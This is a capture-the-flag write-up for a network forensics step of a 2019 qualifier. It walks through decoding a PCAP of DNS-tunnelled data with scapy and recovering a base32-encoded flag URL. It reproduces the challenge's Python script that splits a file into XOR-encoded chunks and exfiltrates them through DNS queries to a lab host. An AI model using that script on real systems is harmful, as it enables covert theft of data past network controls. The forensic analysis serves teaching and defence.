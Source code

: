```yaml
---
title: Hexpresso FIC Quals 2019: Step 2
slug: hexpresso-fic-2
date: 19/12/2019
---
```


The second step is some network forensics.

![Introduction](/assets/hexpresso-fic-quals/step2/intro.png)

We are given a PCAP file. It is not too big, we can clearly observe three
events (all the addresses are on `172.16.42.0`):

* `.99` requests `/index.html` to `.222` (does not matter for the challenge)
* `.99` requests `/dnstunnel.py` to `.222`
* `.99` performs dozens of DNS queries

Here is the Python script `dnstunnel.py`:

```python
#! /usr/bin/python3

import random
import os


# This is the "secret" data that is going to be sent
f = open('data.txt','rb')
data = f.read()
f.close()

print("[+] Sending %d bytes of data" % len(data))
print("[+] Cut in pieces ... ")


# encrypt encodes the chunck l in base16
# l is also XORED with a random key, that is added in front of the final
# payload chunk
def encrypt(l):
    key = random.randint(13, 254)
    output = hex(key)[2:].zfill(2)

    # This AES is a bit weird but who am I to judge
    for i in range(len(l)):
        aes = ord(l[i]) ^ key)
        output += hex(aes)[2:].zfill(2)

    # Key + encoded data
    return output


# udp_secure_tunneling actually performs the DNS query
# The command is as follows:
# host -t A <ENCODED_DATA>.local.tmux <DNS server>
# It is fully synchronous and there is a sleep so the ordering of the DNS
# queries is not very likely to be undefined.
def udp_secure_tunneling(my_secure_data):
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data
    os.system(mycmd)
    os.system("sleep 1")


# send_data sends a chunk of data (global variable), starting
# at position s
def send_data(s):
    global n
    n = n+1
    # Each DNS query exfiltrates between 4 and 11 bytes
    length = random.randint(4,11)

    # There is a redundancy mechanism, in case of packet lost
    # If we send more bytes we can recover if we loose some packets?
    redundancy = random.randint(2,16)
    chunk = data[s:s+length+redundancy].decode("utf-8")
    # Redundancy marks are added to the payload
    chunk = "%04d%s"%(s,chunk)
    print("%04d packet --> %s.local.tux" % (n,chunk))

    blob = encrypt(chunk)
    udp_secure_tunneling(blob)
    return s + length


# Keep track of what remains to be sent
cursor = 0

# As long as it remains some data, send data from cursor
while cursor < len(data):
    cursor = send_data(cursor)
```

Please, take a look at the comments on the script.

We can understand that some secret payload has been sent using the DNS
exfiltration technique. Its very simple: you just make a bunch of DNS
queries, embedding the data in the domain that is queried.

The only real constraint of this technique is that the data has to be pure
plaintext (as far as I know?) so you need some kind of encoding. The base64
is often chosen but here it is base16.

There is also a XOR operation... Each DNS query has its own key but really,
it is no big deal as the key is sent alongside the cipher.

We will talk a bit more about the redundancy mechanism later. For now, we
just need to know that we could expect some data to be duplicated and that
redundancy marks (`chunk = "%04d%s"%(s,chunk)`) are part of the payload.

We have tout bien compris so let's write a script that:

* Iterates over the DNS queries
* For each query, extracts its key
* Decodes its payload
* Performs the XOR operation
* Adds the result to a buffer

After a few copy/pastes here we go:

```python
from scapy.all import rdpcap, DNSQR, DNSRR


def extract(file_path):
    result = ''

    for p in rdpcap(file_path):
        if p.haslayer(DNSQR) and not p.haslayer(DNSRR):
            # It is a DNS query!
            # We remove the base domain
            qry = p[DNSQR].qname.decode().replace('.local.tux.', '')

            key = qry[0:2] # Extract the key
            rest = qry[2:] # What remains is the payload

            # Group the characters by two (base16)
            byTwo = [rest[i:i+2] for i in range(0, len(rest), 2)]
            # Base conversion, XOR and decode
            for c in byTwo:
                plain = int(c, 16) ^ int(key, 16)
                result += chr(plain)

    return result


with open('output.txt', 'w+') as f:
    f.write(extract('cb52ae4d15503c598f0bb42b8af1ce51.pcap'))
```

Here is the content of `output.txt`:

```
0000Congratulations!! Y0011ions!! You did it so f0020u did it so far!

Here is 0030o far!

Here is t0039ere is the link 0049 link in bas0059ase32 for0064 form:
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4T
MOJ01373GIMZVGI4T
MOJQM0141ZVGI4T
MOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===

 _    0163QU===

 _      0168

 _             0179        0183                 0189                   0196           0205            
|0213    
| |__   _0224  _____  ___ _0228___  ___ __ 0235_ __  _ __0243__ ___  ___ ___  _0253_ ___  ___0261__  
|0265
| '_ \ / _ \ \0273/ _ \ \/ / '_ \| '_0283 '_ \| '__/ 0288| '__/ _ \/ __/ __0298/ __/ __|/0303 __|/ _ \ 
| | | |  __/0310 \ 
| | | |  __/>  <| |0320|  __/>  <| |0328 <| |_) | | |  0333_) | | |  __/\__ \_0342 __/\__ \__ \ (_) |
|_| 0353 \ (_) |
|_| |_|\0362|_| |_|\___/_/\_\ ._0371__/_/\_\ .__/|_|  \___||__0382_/|_|  \___||___/0389\___||___/_0397_/___/\___/ 
      0401_/\___/ 
           0409
       0413             |0424  |_|          0431                    0435                    0443              


0447          


0453    


0459
```

It looks promising but is very hard to read because of the redundancy. Pieces
of text are repeated, and the redundancy marks (`0000`, `0030`, etc) are
mixed with the content.

We can partially read the text: *Here is the link in base32 form:*. So let's
extract the base32 chunk and put it on a single line:

```
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4TMOJ01373GIMZVGI4TMOJQM0141ZVGI4TMOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===0163QU===
```

Here is the Vim regex I used to clean up the string:

```
:%s/\(.\{-\}\)\d\{4\}\1/\1/
```

It matches on any piece of text similar to `ABCDEF0123ABCDEF` (piece of text
(base32 charset), redundancy indicator (4 digits), redundancy text (same as
the piece of text)) and replaces it by `ABCDEF` (the piece of text).

Repeatedly applying the regex produces the following string:

```
NB2HI4DTHIXS6Y3UMYXGQZLYOBZGK43TN4XGM4RPGU3TSODDME2DOZDBMNSTKYZVMU3GIMZVGI4TMOJQMM4DMMZTG42QU===
```

Which decodes to our flag:

```
https://ctf.hexpresso.fr/5798ca47dace5c5e6d3529690c863375
```

You can [click here](/posts/hexpresso-fic-3) for the next step.
